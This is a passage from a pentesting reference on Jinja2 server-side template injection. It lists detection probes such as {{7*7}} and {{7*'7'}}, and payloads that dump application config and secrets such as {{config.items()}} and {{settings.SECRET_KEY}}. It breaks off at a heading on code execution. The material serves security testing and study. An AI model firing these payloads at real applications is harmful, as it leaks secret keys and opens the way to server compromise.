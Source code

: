 [](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python)

Jinja2 (Python)

[Official website](http://jinja.pocoo.org/)

> Jinja2 is a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.

- `{{7*7}} = Error`
    
- `${7*7} = ${7*7}`
    
- `{{foobar}} Nothing`
    
- `{{4*4}}[[5*5]]`
    
- `{{7*'7'}} = 7777777`
    
- `{{config}}`
    
- `{{config.items()}}`
    
- `{{settings.SECRET_KEY}}`
    
- `{{settings}}`
    
- `<div data-gb-custom-block data-tag="debug"></div>`
    



```
{% debug %}






{{settings.SECRET_KEY}}
{{4*4}}[[5*5]]
{{7*'7'}} would result in 7777777
```

**Jinja2 - Template format**



```
{% extends "layout.html" %}
{% block body %}
  <ul>
  {% for user in users %}
    <li><a href="{{ user.url }}">{{ user.username }}</a></li>
  {% endfor %}
  </ul>
{% endblock %}

```

[**RCE not dependant from**](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/) `__builtins__`:
